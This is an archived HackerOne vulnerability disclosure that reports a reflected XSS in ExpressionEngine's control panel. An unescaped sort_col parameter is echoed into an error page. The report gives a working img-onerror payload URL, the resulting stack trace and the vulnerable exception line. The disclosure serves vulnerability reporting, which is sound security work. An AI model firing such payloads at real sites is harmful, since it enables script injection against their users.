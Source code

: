 # Reflective XSS

## Report Details
- **Report ID**: 177943
- **URL**: https://hackerone.com/reports/177943
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-10-25T07:16:29.281Z
- **Disclosed**: 2017-09-29T18:24:35.667Z

## Reporter
- **Username**: hogarth45
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: expressionengine

## Vulnerability Information
**URL**
http://blackdoorsec.net/sandbox/express/admin.php?/cp/members/bans&search=&sort_col=me%22%3E%3Cimg%20src=x%20onerror=prompt(document.domain)%3Ember_id&sort_dir=desc

**URL Parameters**
/cp/members/bans
search=
sort_col=me%22%3E%3Cimg%20src=x%20onerror=prompt(document.domain)%3Ember_id
sort_dir=desc

The ```sort_col``` variable is reflected on the error page on line 15
```
<h2>Unknown field me"><img src=x onerror=prompt(document.domain)>mber_id</h2>
```

Error Page Details (Note: hackerone remove html from past)
```
Unknown field me">mber_id

ee/EllisLab/ExpressionEngine/Service/Model/Query/Select.php:356
Stack Trace: hide details

    #0 ee/EllisLab/ExpressionEngine/Service/Model/Query/Select.php(213): EllisLab\ExpressionEngine\Service\Model\Query\Select->translateProperty('me">#1 ee/EllisLab/ExpressionEngine/Service/Model/Query/Select.php(99): EllisLab\ExpressionEngine\Service\Model\Query\Select->applyOrders(Object(EllisLab\ExpressionEngine\Service\Database\Query), Array)
    #2 ee/EllisLab/ExpressionEngine/Service/Model/Query/Select.php(42): EllisLab\ExpressionEngine\Service\Model\Query\Select->buildQuery()
    #3 ee/EllisLab/ExpressionEngine/Service/Model/DataStore.php(513): EllisLab\ExpressionEngine\Service\Model\Query\Select->run()
    #4 ee/EllisLab/ExpressionEngine/Service/Model/DataStore.php(459): EllisLab\ExpressionEngine\Service\Model\DataStore->runQuery('Select', Object(EllisLab\ExpressionEngine\Service\Model\Query\Builder))
    #5 ee/EllisLab/ExpressionEngine/Service/Model/Query/Builder.php(156): EllisLab\ExpressionEngine\Service\Model\DataStore->selectQuery(Object(EllisLab\ExpressionEngine\Service\Model\Query\Builder))
    #6 ee/EllisLab/ExpressionEngine/Service/Model/Query/Builder.php(75): EllisLab\ExpressionEngine\Service\Model\Query\Builder->fetch()
    #7 ee/EllisLab/ExpressionEngine/Controller/Members/Members.php(571): EllisLab\ExpressionEngine\Service\Model\Query\Builder->all()
    #8 ee/EllisLab/ExpressionEngine/Controller/Members/Members.php(298): EllisLab\ExpressionEngine\Controller\Members\Members->buildTableFromMemberQuery(Object(EllisLab\ExpressionEngine\Service\Model\Query\Builder))
    #9 [internal function]: EllisLab\ExpressionEngine\Controller\Members\Members->bans()
    #10 ee/EllisLab/ExpressionEngine/Core/Core.php(189): call_user_func_array(Array, Array)
    #11 ee/EllisLab/ExpressionEngine/Core/Core.php(94): EllisLab\ExpressionEngine\Core\Core->runController(Array)
    #12 ee/EllisLab/ExpressionEngine/Boot/boot.php(151): EllisLab\ExpressionEngine\Core\Core->run(Object(EllisLab\ExpressionEngine\Core\Request))
    #13 admin.php(143): require_once('...')
    #13 admin.php(143): require_once('...') 
```

Line 356 of Select.php
```
throw new \Exception("Unknown field {$alias}.{$property}");
```

## Attachments
- ellis1.JPG
